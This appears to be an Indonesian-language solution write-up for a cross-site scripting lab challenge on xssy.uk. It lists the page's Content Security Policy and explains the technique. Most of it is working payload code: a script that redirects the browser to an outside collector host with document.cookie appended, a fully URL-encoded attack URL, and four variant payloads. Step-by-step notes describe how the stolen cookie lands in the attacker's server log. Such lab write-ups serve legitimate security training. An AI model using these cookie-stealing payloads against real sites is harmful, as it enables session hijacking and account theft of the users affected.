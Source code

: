 ### CSP yang Diterapkan
```
default-src 'none'; 
img-src https://xssy.uk/; 
style-src 'unsafe-inline'; 
script-src 'unsafe-inline'
```

### Penjelasan Teknik
`window.location` adalah properti JavaScript yang mengontrol URL dari window/tab browser. Dengan mengubah nilai `location`, browser akan melakukan navigasi ke URL baru. Teknik ini adalah cara paling sederhana dan direct untuk melakukan redirect dan exfiltration data.

### Full URL, Parameter & Payload

**Payload:**
```javascript
<script>
location='https://eqh42jmm.xssy.uk/?c='+document.cookie;
</script>
```

**URL Encoded:**
```
https://pzcihwu2.xssy.uk/target.ftl?name=%3Cscript%3Elocation%3D%27https%3A%2F%2Feqh42jmm.xssy.uk%2F%3Fc%3D%27%2Bdocument.cookie%3B%3C%2Fscript%3E
```

**Variasi Payload:**

```javascript
// Variasi 1: window.location
<script>
window.location='https://eqh42jmm.xssy.uk/?c='+document.cookie;
</script>

// Variasi 2: location.href
<script>
location.href='https://eqh42jmm.xssy.uk/?c='+document.cookie;
</script>

// Variasi 3: location.assign()
<script>
location.assign('https://eqh42jmm.xssy.uk/?c='+document.cookie);
</script>

// Variasi 4: location.replace() (no back button)
<script>
location.replace('https://eqh42jmm.xssy.uk/?c='+document.cookie);
</script>
```

### Cara Kerja
1. XSS payload di-inject melalui parameter `name`
2. Script langsung mengubah properti `location` browser
3. Browser mendeteksi perubahan location
4. Browser melakukan navigasi ke URL baru
5. `document.cookie` ditambahkan sebagai parameter query string
6. Server attacker menerima request GET dengan cookie di URL
7. Cookie ter-exfiltrate dan dicatat di server log
